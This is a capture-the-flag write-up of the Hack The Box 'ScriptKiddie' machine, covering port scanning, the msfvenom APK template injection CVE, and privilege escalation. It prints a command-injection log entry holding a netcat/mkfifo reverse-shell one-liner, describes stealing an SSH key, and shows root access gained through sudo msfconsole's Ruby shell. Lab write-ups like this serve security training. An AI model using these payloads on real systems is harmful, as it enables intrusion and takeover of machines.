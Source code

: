# Hackthebox.eu - ScriptKiddie
**February 7th, 2021**

This box was a web hosted script kiddies tool set. Utilizing known CVEs within the security tools it called on the back-end, we can get a reverse shell. From there we can abuse a poorly secured cronjob, to move laterally to another user who has password-less sudo configured for a tool that allows us to run commands.

## Quick Summary
* Craft a malicious android APK template for metasploit
* Upload template to the web front end and get a reverse shell
* Modify a log file to do bash command injection to get a second reverse shell
* Launch msfconsole with sudo, and drop to a ruby shell
* Read out the flag from ruby


### Tools requried
Nothing fancy. a standard Ubuntu desktop should have everything you need by default

## Detailed steps
### Port Scan
A portscan revealed a python web server on port 5000 and an active sshd service both running on an Ubuntu box of some kind.
```bash
$ nmap -sC -sV -oA nmap/init 10.10.10.226

 Nmap 7.91 scan initiated Sun Feb  7 11:01:09 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.040s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d\'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  7 11:01:18 2021 -- 1 IP address (1 host up) scanned in 9.43 seconds
```


### Web Server (:5000)
This web server was a front end to a bunch of hacking tools. Here's how it was laid out

* **nmap**: Puts the given IP into an nmap command and outputs the result. The input seems to be regex'd for IPs and I couldn't find any injection that worked.
* **sploits**: Searches for exploits by your given string. I tried command injection but it gives a warning that they will hack you back. This turns out to be important for getting root later.
* **payloads**: Generates meterpreter binaries for different platforms with an optional template. Only Android and windows seemed to work, while Linux threw an error.

#### CVE-2020-7384 (msfvenom APK template command injection)
The metasploit templates are binaries that are used as a frame to inject your payload into. Normally, you can use custom templates to help evade anti-virus and intrusion detection systems.

This CVE references the ability to gain command injection by crafting malicious APK templates for an android platform. I found a proof of concept for this attack, but it had a few issues I had to overcome. The resulting PoC I used can be found here: https://gist.github.com/lungdart/2aa3673a872e386ea5ddc36186727711

I used this tool to generate a malicious APK file, and uploaded it to the *payloads* section of the form. Listening with netcat gave me a reverse shell as the user ```kid```
```bash
kid@scriptkiddie:~/logs$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

Once I was in as the ```kid``` user, There was an existing SSH key that I stole to stabilize my connection to the box.

### Privilege escalation to pwn
#### kid's home directory
```kid```'s home directory contain the source code for the website. The code for the searchsploit section showed that an attempt at command execution would have your IP written to the log file ```/home/kid/logs/hackers```, which was empty

```bash
kid@scriptkiddie:~$ cat logs/hackers

```

Taking a look at the home directory itself shows another user named ```pwn```

#### pwn's home directory
``pwn`` had a suspicious shell script that I had read access to called ```scanlosers.sh```. This script seemed to check the hackers log file from ```kid```'s home directory, and run nmaps on the target and recording the output. After it did this it would erase the file contents. Looking around showed that this script was running extremely often.

Because we had write access to ```/home/kid/logs/hackers```, we could craft an evil entry, that contained command injection instead of an IP. Then when the system ran ```/home/pwn/scanlosers.sh``` it would run my command as the ```pwn``` user, and give me a reverse shell as them. The evil log entry I came up with was ```[2021-02-07 17:57:52.187031] 1.1.1.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 5051 >/tmp/f;```. I ran a netcat listener and put that into the log file, and immediately was gifted with a second reverse shell.

### Privilege escalation to root
Checking sudo shows that the ```pwn``` user has password-less sudo access for the msfconsole tool.
```bash
pwn@scriptkiddie:~$ sudo -l
User pwn may run the following commands:
    (root) NOPASSWD: /usr/bin/msfconsole
```

since msfconolse has an interactive ruby interpreter built in, we can launch that, then exec commands to read out the flag.
```bash
pwn@scriptkiddie:~$ sudo msfconsole
msf > irb
[*] Starting IRB shell...
```

```ruby
echo `cat /root/root.txt`
```

I submitted the flag and finished the box!
